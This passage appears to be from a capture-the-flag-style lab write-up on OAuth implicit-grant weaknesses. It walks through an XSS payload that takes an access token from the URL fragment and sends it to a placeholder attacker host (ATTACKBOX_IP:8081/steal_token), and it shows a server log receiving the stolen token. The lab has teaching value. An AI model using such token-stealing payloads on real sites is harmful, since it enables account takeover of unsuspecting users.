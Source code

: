 Let's dissect the payload:

- The JavaScript payload starts by extracting the fragment identifier from the URL, which is the part of the URL following theÂ `#`Â symbol. It removes the leadingÂ `#`Â usingÂ `substr(1)`Â to obtain the raw fragment string.
- This string is then split byÂ `&`Â to separate the individual key-value pairs. TheÂ `reduce`Â function processes each of these pairs, splitting them further byÂ =Â to isolate the keys and values. These key-value pairs are then stored in an object called result.
- The script extracts theÂ `access_token`Â value from this object and assigns it to the variableÂ `accessToken`. To exfiltrate this access token, the script creates a new Image object and sets itsÂ `src`Â attribute to a URL that points to an attacker's server (`http://ATTACKBOX_IP:8081/steal_token`), appending the access token as a query parameter.
- When the image is loaded, it triggers a request to the attacker's server with the stolen access token included in the URL, effectively sending the token to the attacker.Â   
    
Copy and paste the code inside the victim machine into the status input field. Once the victim refreshes the page, the XSS payload is executed. It copies the access token from the URL fragment and sends it to the attacker's server atÂ `http://ATTACKBOX_IP:8081/steal_token`. The attacker can then capture the token and use it to gain unauthorized access to the user's account.  

**Note:**Â Refresh the page in order to visualize what the victim sees and to retrieve the token.

```bash
root@ip-10-10-162-175:~# python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.9.2.217 - - [27/Aug/2024 19:30:10] code 404, message File not found
10.9.2.217 - - [27/Aug/2024 19:30:10] "GET /steal_token?token=2aauviER3lUOev8wNmXQ9B4GNUoadE HTTP/1.1" 404 -

```

The implicit grant type is particularly vulnerable to such attacks because the access token is exposed in the URL fragment, making it accessible to any script running on the page. This vulnerability is compounded if the application does not enforce HTTPS, leading to potential token interception through man-in-the-middle attacks.


### Practical 
---

Let's visit:

```
http://factbook.thm:8080
```

![Pasted image 20250505142932.png](../../../IMAGES/Pasted%20image%2020250505142932.png)
